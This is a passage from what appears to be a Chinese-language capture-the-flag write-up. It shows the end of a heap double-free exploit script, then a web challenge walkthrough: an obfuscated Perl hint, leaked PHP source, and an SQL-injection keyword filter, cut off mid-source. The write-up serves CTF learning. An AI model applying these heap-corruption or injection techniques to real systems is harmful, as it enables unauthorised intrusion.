 ```python
def move(dest):
    sla('> ','5')
    sla('?\n', str(dest))

add() # 0
add() # 1
add() # 2
delete(0)
delete(1)
delete(0)

add() # 3 <-> 0
add() # 4
move(0x20)
fake = show()-8
edit(3,fake)
add() # 5
add() # 6
edit(6,0xdeadbeef)
sla('> ','6')
```

## Web

### UTF-8

题目给了一个 `rfc3629` 的链接，也就是 UTF-8 编码的 RFC 文件。

首先访问发现是空页面，扫一下可以发现 `robots.txt`，指向一个奇怪的文件：

```
length q chdir lc and print chr ord q each le and print chr ord q lc eval and print chr ord q lt eval and print chr ord q sin s and print chr ord q xor x and print chr ord qw q not q and print chr oct oct ord q eq ge and print chr ord q msgctl m and print chr ord q local and print chr ord q dump and and print chr ord q or no and print chr ord q oct no and print chr ord q ge log
```

提示说 `chmod +x secretscript`，说明这个文件是可以运行的，因此猜想这是脚本文件，查阅资料可知这是 `ppencoding`，放入在线 Perl 运行工具运行一下，得到：

```
action=source
```

把这个当作 GET 参数，访问得到源码：

```php
<?php

$conn->query("set names utf8");

$sql = "create table `user` (
         `id` int(10) unsigned NOT NULL PRIMARY KEY  AUTO_INCREMENT ,
         `username` varchar(30) NOT NULL,
         `passwd` varchar(32) NOT NULL,
         `role` varchar(30) NOT NULL
       )ENGINE=MyISAM AUTO_INCREMENT=1 DEFAULT CHARSET=latin1 COLLATE=latin1_general_ci ";
if ($conn->query($sql)) {
  $sql  = "insert into `user`(`username`,`passwd`,`role`) values ('admin','".md5(randStr())."','admin')";
  $conn->query($sql);
}

function filter($str) {
     $filter = "/ |\*|,|;|union|is|like|regexp|and|or|for|file|#|--|\||&|`|".urldecode('%a0')."|".urldecode("%0a")."|".urldecode("%0b")."|".urldecode('%0c')."|".urldecode('%0d')."|".urldecode('%09')."/i";
```
